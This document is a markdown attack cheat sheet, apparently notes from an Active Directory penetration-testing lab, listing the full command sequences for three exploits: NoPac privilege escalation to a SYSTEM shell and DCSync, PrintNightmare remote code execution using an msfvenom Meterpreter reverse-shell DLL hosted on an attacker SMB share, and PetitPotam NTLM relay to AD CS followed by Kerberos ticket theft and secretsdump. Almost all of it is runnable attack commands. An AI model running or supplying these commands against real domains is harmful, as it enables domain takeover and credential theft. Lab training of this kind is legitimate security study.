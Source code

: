 # NoPac, PrintNightmare, and PetitPotam Exploits

## I. NoPac (SamAccountName Spoofing) - Domain Privilege Escalation

**Purpose:** Exploits CVE-2021-42278 and CVE-2021-42287 to elevate privileges to Domain Admin.

### Impacket Setup (Required Dependencies)

```bash
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
python3 setup.py install
```

### NoPac Tool Retrieval

```bash
git clone https://github.com/Ridter/noPac.git
cd noPac
```

### Vulnerability Scanning

```bash
sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
```

(Checks if the target domain controller is vulnerable)

### Interactive Shell as SYSTEM

```bash
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
```

(Gains a shell with NT AUTHORITY\SYSTEM privileges)

### DCSync (Domain Credential Extraction)

```bash
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator
```

(Extracts domain credentials using DCSync)

### Checking for Created Files

```bash
ls
```

(Verifies the creation of .ccache files)

---

## II. PrintNightmare (Print Spooler Vulnerability) - Remote Code Execution

**Purpose:** Exploits CVE-2021-34527 and CVE-2021-1675 to gain SYSTEM-level remote access.

### Exploit Retrieval

```bash
git clone https://github.com/cube0x0/CVE-2021-1675.git
cd CVE-2021-1675
```

### Impacket Setup (cube0x0 Version)

```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

### Service Enumeration

```bash
rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'
```

(Verifies the Print Spooler service is active)

### Payload Generation (Metasploit)

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
```

(Creates a reverse TCP Meterpreter payload)

### SMB Share Setup

```bash
sudo smbserver.py -smb2support CompData /path/to/backupscript.dll
```

(Hosts the DLL payload on an SMB share)

### Metasploit Listener Setup

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 172.16.5.225
set LPORT 8080
run
```

(Starts a listener to catch the reverse shell)

### Exploit Execution

```bash
sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'
```

(Triggers the Print Spooler vulnerability)

### Meterpreter Interaction

```bash
shell
whoami
```

(Drops into a SYSTEM shell)

---

## III. PetitPotam (MS-EFSRPC) - Domain Compromise via NTLM Relay

**Purpose:** Exploits CVE-2021-36942 to coerce domain controller authentication for NTLM relay to AD CS.

### NTLM Relay Setup

```bash
sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
```

(Starts ntlmrelayx to relay authentication to AD CS)

### Authentication Coercion

```bash
python3 PetitPotam.py 172.16.5.225 172.16.5.5
```

(Triggers the domain controller to authenticate)

### TGT Request (PKINITtools)

```bash
python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache
```

(Requests a TGT for the domain controller)

### KRB5CCNAME Setup

```bash
export KRB5CCNAME=dc01.ccache
```

(Sets the Kerberos ticket cache)

### DCSync (Credential Extraction)

```bash
secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```

(Extracts domain credentials using DCSync)